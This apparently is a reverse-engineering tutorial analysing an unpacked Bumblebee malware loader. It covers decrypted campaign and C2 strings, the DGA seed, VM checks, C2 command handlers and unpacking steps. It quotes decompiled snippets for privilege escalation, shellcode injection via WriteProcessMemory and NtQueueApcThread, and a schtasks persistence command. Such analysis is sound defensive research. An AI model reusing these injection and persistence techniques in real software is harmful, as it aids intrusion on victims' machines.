

**Background** : This is an analysis of an unpacked bumblebee. This is meant to be a little reversing tutorial, as well as a demonstration of some basic reverse engineering and research skills I learned. 
The unpacked sample was downloaded from malware bazaar. I found the hash through this [article](https://bin.re/blog/the-dga-of-bumblebee/)

Bumblebee has two exports. As it is a dll, it's exports important because they contain the main functions of the malware.
We are going to look at the export starting at ```start	0000000140057D2C	[main entry]```
This is the 'main' function of the malware.  


When we scroll into the main function a little, we can see a string being passed as an argument:


I know that bumblebee uses RC4 encryption from two sources. One, from reading about the malware from articles like [this](https://www.proofpoint.com/us/blog/threat-insight/bumblebee-is-still-transforming) and two, from Flare's capa explorer plugin which indicates it found a pattern matching RC4 encryption. 


Shortly after this string, a function call is made that takes another intersting string as an arugment


Here is the hex representation of the second string: 
`7AE5E93A3176116F05E7D9340565B7993D86C48D5E36147BE7D546D28CAFA0F1F2698B11951B24D9702DB827A70990F6F9272677B4187F616F58350DDC7BA3B8F49F66115DF39529B63F7FA7C3581D41`


If we use the initial interesting string as a passphrase for a RC4 encryption algorithm to decrypt the strange jumbled up encrypted looking string, we get an interesting output


The output reads `lnk1` 
This indicates that this version of bumblebee is being distributed via lnk email attachments. Furthermore, it possibly indicates that the authors of bumblebee set their versioning or campaignIDs to indicate the initial vector of infection. 

There's another argument being passed to a function directly after the lnk1 group string. 
```c
  copy_string(v106, lnk1group, v9);
  v105 = 15i64;
  v104 = 0i64;
  LOBYTE(v103[0]) = 0;
  if ( byte_1400F2B40[0] )                      // IP addresses
```
If we apply the same process of decrypting it using RC4, we get a list of IP addresses and ports:

`192.168.0.101:444,127.0.0.1:444,186.218.161.242:270`
We can likely use these IPs as further means to categorize different campaigns of Bumblebee. 
These IPs are remnants from pre-dga bumblebee. They could potentially throw off researchers into thinking they are valid c2s. Additionally, they could potentially cause some havoc if, say, a tool automatically extracted these IPs and placed network blocks.


Now, there's something to observe here. If we reference some older samples, specifically one researched by Proofpoint back in 2022, we note that the campaignID was previoiusly stored in plaintext. 


The sample I'm analysing comes from [here](https://bazaar.abuse.ch/browse.php?search=sha256%3Aaf59ce785e062bf0d198eb4e3bdbc1ee57d58164de6dc1faf38836c670ef6f7d) 
It was uploaded in September of 2023 and has a compilation timestamp of `2023-09-04 09:02:26`
We note that the campaignID is no longer being stored in plaintext and instead encrypted via RC4. We can conclude that Bumblebee was seeing active development since the 2022 Proofpoint blog.

Shortly after, the malware generates hashes and passes them to the `CreateEventW` API call. The hash is generated by querying WMI for the hostname and UUID of the system and concatinating the values. This creates a unique value.
```c
  ntdll_handle();
  SELECT__FROM_Win32_ComputerSystem(v142);
  SELECT__FROM_Win32_ComputerSystemProduct(v149);
  append_string(v141, v149, v142);
  v156 = 0i64;
  v157 = 0i64;
  v158 = 0i64;
  v159 = 0i64;
  v160 = 0i64;
  v161 = 0i64;
  v162 = 0i64;
  v163 = 0i64;
  intialize_md5(v155);
  intialize_md5(v155);
  v25 = v141;
  if ( v141[3] >= 0x10ui64 )
    v25 = v141[0];
  md5_related(v155, v25, v141[2]);
  md5_related_0(v155);
  convert_hash_to_hex(ArgList, v164);
  ascii_to_utf16(lpName, ArgList);
  v26 = lpName;
  if ( v112 >= 8 )
    v26 = lpName[0];
  hObject = CreateEventW(0i64, 0, 0, v26);
  if ( hObject )
  {
    if ( GetLastError() == ERROR_ALREADY_EXISTS )
```

`CreateEventW` is used to ensure the malware isn't already running, hence the check shown in the screenshot against error code 183 or `ERROR_ALREADY_EXISTS`

Following this we see some strings indicating the malware is collecting information about the infected host. Specifically username and Domain name.
```c
get_user_name(v137);
    if ( v143 )
    {
      exception_handling_2(v137, "\n", 1i64);
      v28 = sub_14000E020(v113, "User name: ", v142);
      exception_handling_0(v137, v28, 0i64, -1i64);
```
```c
 get_domain(v153);
    if ( v154 )
    {
      exception_handling_2(v137, "\n", 1i64);
      v31 = sub_14000E020(v113, "Domain name: ", v153);
      exception_handling_0(v137, v31, 0i64, -1i64);
```

### DGA
We find the seed of the DGA by checking for the `.life` string in IDA and finding xrefs to it. 
We find a string shortly after the first xref of `TEST_SEED_new_2`. This is the DGA seed for this sample. 
Then we find some code immeditately following this that turns the string into an int
```c
v15 = *aTestSeedNew2;
v16 = int_parsing(a100);
v17 = int_parsing(a11);
```
Shortly following this, we see these variables passed to the DGA algorithm

```c
 DGA_algo(v131, v20, v15, v16, v17, v103, lpName);
 ```


### Anti-Analysis

##### VM Detection

There's a function that has a lot of strings related to virtual machines. 
It runs a series of functions that check to see if Bumblebee is running on a virtual machine. 

Here's an example: 
```c
v1 = SysAllocString(L"WQL");
v2 = SysAllocString(L"SELECT * FROM Win32_BaseBoard");
```
Here, bumblebee queries the wql (sql for wmi) for `Win32_BaseBoard`. This is basically querying wmi for the host's motherboard. 

It then continues to check if the motherboard is a vmware motherboard here: 

```c
      (*(*v5 + 32i64))(v5, 0xFFFFFFFFi64, 1i64, &v13, &v12);
        if ( !v12 )
          break;
        if ( (*(*v13 + 32i64))(v13, L"Product", 0i64, &pvarg, 0i64, 0i64) >= 0 && pvarg.vt != 1 )
        {
          if ( (pvarg.vt & 8) != 0 && wcsstr(pvarg.bstrVal, L"VirtualBox") )
            v0 = 1;
          VariantClear(&pvarg);
        }
        memset(v9, 0, sizeof(v9));
        v10 = 0;
        v11 = 0;
        *&pvarg.vt = *v9;
        pvarg.pRecInfo = (0i64 >> 112);
        if ( (*(*v13 + 32i64))(v13, L"Manufacturer", 0i64, &pvarg, 0i64, 0i64) >= 0 && pvarg.vt != 1 )
        {
          if ( (pvarg.vt & 8) != 0 )
          {
            if ( wcsstr(pvarg.bstrVal, L"Oracle Corporation") )
```
Keep in mind, this is just one check. There are various others for other virtualization platforms including qemu, virtualbox and parallels 
### C2 Command Handling

This section of code looks like it's related to the handling of commands sent by the C2. There are various command names, each one doing something different. The commands I have found are shi, dij, dex, sdl, ins, gdt and plg
Let's look at what shi does in dpeth, then summarize what the rest of the commands do.

#### shi

If Bumblebee recieves the shi command, a function is called that does various interesting things.

First, an API call to GetSpecialFolderPath with an interesting array of paths.


It's important to note that GetSpecialFolderPath gets folders based on their CSIDL. 

Here is the array of paths: 
```
"\\Windows Photo Viewer\\ImagingDevices."...
"\\Windows Mail\\wab.exe"
"\\Windows Mail\\wabmig.exe"
```
shi then randomly picks one of these executables, again, this is likely to avoid detection and to make analysis more difficult.


We then enter a subroutine that gathers information about the infected host.


Bumblebee then loops through  threads using `CreateToolhelp32Snapshot`, tries finding a specific one, then opens it. The thread it's looking for is in a suspended state to inject code. 

If successful


Bumblebee loads Advapi32.dll and uses it to escalate it's priveleges to debug. 

``` c 
  hObject = a1;
  v7 = 0ui64;
  LibraryA = LoadLibraryA("Advapi32.dll");
  OpenProcessToken = GetProcAddress(LibraryA, "OpenProcessToken");
  CurrentProcess = GetCurrentProcess();
  if ( !(OpenProcessToken)(CurrentProcess, 40i64, &hObject) )
    return 0i64;
  if ( !LookupPrivilegeValueW(0i64, L"SeDebugPrivilege", &Luid) )
  {
    CloseHandle(hObject);
    return 0i64;
  }
  *(&v7 + 4) = Luid;
  LODWORD(v7) = 1;
  HIDWORD(v7) = 2;
  AdjustTokenPrivileges = GetProcAddress(LibraryA, "AdjustTokenPrivileges");
  v6 = (AdjustTokenPrivileges)(hObject, 0i64, &v7, 16i64, 0i64, 0i64);
  CloseHandle(hObject);
  return v6;
```

SHI also has the ability to write shellcode 

```c
  char v11; // [rsp+90h] [rbp+30h] BYREF

  shellcode[0] = 0x48C03148;                    // These variables are actually shellcode beind displayed as decimal
                                                // 
  shellcode[1] = 0x3148DA31;
  shellcode[2] = 0x3E8B9C9;
  shellcode[3] = 0x1BA0000;
  shellcode[4] = 0x48000000;
  v7 = 0xB8;
  *&v8[7] = 0xEBD0FF11;
  v9 = 0xDF;
  ModuleHandleA = GetModuleHandleA("kernel32.dll");
  *v8 = GetProcAddress(ModuleHandleA, "SleepEx");// overwriting Sleep with shellcode
  entrypoint_of_something = get_entrypoint_of_dll(hProcess);
  WriteProcessMemory = GetProcAddress(ModuleHandleA, "WriteProcessMemory");
  VirtualProtectEx(hProcess, entrypoint_of_something, 0x21ui64, 0x40u, &flOldProtect);
  result = (WriteProcessMemory)(hProcess, entrypoint_of_something, shellcode, 33i64, &v11);
  if ( result )
  {
    VirtualProtectEx(hProcess, entrypoint_of_something, 0x21ui64, flOldProtect, &flOldProtect);
    return 1i64;
```

Let's take a close look at the shellcode

If we compile this code and disassemble it we get this: 

```
0000000000000000 4831C0                          XOR RAX,RAX
0000000000000003 4831DA                          XOR RDX,RBX
0000000000000006 4831C9                          XOR RCX,RCX
0000000000000009 B9E8030000                      MOV ECX,000003E8
000000000000000E BA01000000                      MOV EDX,00000001
0000000000000013 48B88877665544332211            MOV RAX,1122334455667788
000000000000001D FFD0                            CALL RAX
000000000000001F EBDF                            JMP 0000000000000000
```

Bumblebee replaces the 112233... address with the address of Sleep.exe.
The injected payload gets inserted at the address following the jmp instruction. 
Basically what happens here is that shi has the ability to prepare shellcode injection. 

The shellcode gets sent remotely from the actor in addition to the shi command. The shi command gets the shellcode and injects via the above process. 

#### dij
The dij command in this sample also has the ability to inject shellcode, but the aditional capabilities of this command separate it from shi
We see the same snippet of shellcode injection that we see in shi, but we also see dll injection capabilities via `NtQueueApcThread` 

```c
 ModuleHandleW = GetModuleHandleW(L"ntdll.dll");
              if ( ModuleHandleW )
              {
                NtQueueApcThread = GetProcAddress(ModuleHandleW, "NtQueueApcThread");
                (NtQueueApcThread)(v42, v27 + 360, v27, 0i64, 0);
```


#### dex
Could be used to download and execute
the `dex` command appears to queue bumblebee to create a  .exe file


#### sdl 
Looks as though it runs cmd.exe and runs mkdir and copy
Additionally it looks like it is at least initializing COM proxies 
Also has ability to open Powershell
Able to remove files from the victim 

#### ins 
powershell remove dirs 

Command to schedule a task in windows for persistence

```c
v6 = sub_14000E020(v30, "schtasks.exe /F /create /sc minute /mo 4 /TN \"", v26);
```

#### gdt

named pipes

### Noise PSK 
Opensource library for  encrypted communication
This is how bumblebee communicates to the c2
Here is a snippet of it being references in the code: 
```c
copy_string(a2, "Noise", 5ui64);
  if ( !a4 && *a3 == 1 )
    exception_handling_2(a2, "PSK", 3ui64);
  exception_handling_2(a2, "_", 1ui64);
  switch ( a3[1] )
  {
    case 0:
      v8 = 2i64;
      v9 = "NN";
      break;
    case 1:
      v8 = 2i64;
      v9 = "KN";
```

### Unpacking

Set generic breakpoints in bumblebee sample

Running leads to Virtual Alloc as the first break
Step into Virtual Alloc
We are interested in the return value, so we use run until return
Set a breakpoint there, akak setting a breakpoint at the end of VirtualAlloc 
The value of RAX changes we run
Right click RAX when the value changes post run, and `Follow in Dump` to view the memory location
Every  Time we run and the address in RAX gets changed, we can follow it in a new Dump, just make sure you change the dump (dumps 1-5)

In the dump window, we can scroll until we find some intersting stuff (just to validate it's not all 0s), just non -zero values. Then we can right click and go to Follow in Memory Map
From there we can right click on one of the addresses and click `Dump Memory to File`

This is the start of what gets written to memory after the second dump


Another PE file gets dumped the third time too. 

Loading these into IDA shows that the second dump is bumblebee